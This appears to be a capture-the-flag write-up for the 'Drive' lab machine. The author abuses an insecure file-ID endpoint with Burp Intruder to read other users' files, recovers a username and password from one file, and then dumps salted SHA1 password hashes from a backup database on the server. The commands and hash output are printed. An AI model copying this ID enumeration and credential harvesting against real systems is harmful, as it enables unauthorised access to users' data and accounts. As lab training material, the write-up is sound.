 Going through the website, I found the URL **drive.htb/{file_id}/block** when clicking to reserve a file on the home page of the dashboard. This allows me to read other users' files.

Using Burpe, by intercepting the page and sending it to intruder, I found a file with the ID of 79 that contains sensitive information.

```
martin
Xk4@KjyrYv8t194L!
```

We also found the file **-/101/block** which tells us that there are backups at **/var/www/backups/** and they are password protected.

<br>
I found a couple of archived backups that ask for a password when attempting to extract and a db file that has sha1 encrypted passwords.

{% vimhl bash %}
martin@drive:~$ cd /var/www/backups
martin@drive:/var/www/backups$ ls
1_Dec_db_backup.sqlite3.7z  1_Nov_db_backup.sqlite3.7z  1_Oct_db_backup.sqlite3.7z  1_Sep_db_backup.sqlite3.7z  db.sqlite3
martin@drive:/var/www/backups$ 7z e 1_Dec_db_backup.sqlite3.7z 
7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7302P 16-Core Processor                (830F10),ASM,AES-NI)
Scanning the drive for archives:
1 file, 13018 bytes (13 KiB)
Extracting archive: 1_Dec_db_backup.sqlite3.7z
--
Path = 1_Dec_db_backup.sqlite3.7z
Type = 7z
Physical Size = 13018
Headers Size = 170
Method = LZMA2:22 7zAES
Solid = -
Blocks = 1
    
Enter password (will not be echoed):
ERROR: Data Error in encrypted file. Wrong password? : DoodleGrive/db.sqlite3
                             
Sub items Errors: 1
Archives with Errors: 1
Sub items Errors: 1
{% endvimhl %}

<br>
Let's see what the unprotected db contains.

{% vimhl bash %}
martin@drive:/var/www/backups$ sqlite3 db.sqlite3 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
accounts_customuser                   auth_permission                     
accounts_customuser_groups            django_admin_log                    
accounts_customuser_user_permissions  django_content_type                 
accounts_g                            django_migrations                   
accounts_g_users                      django_session                      
auth_group                            myApp_file                          
auth_group_permissions                myApp_file_groups                   
sqlite> select password from accounts_customuser
   ...> ;
sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004
sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f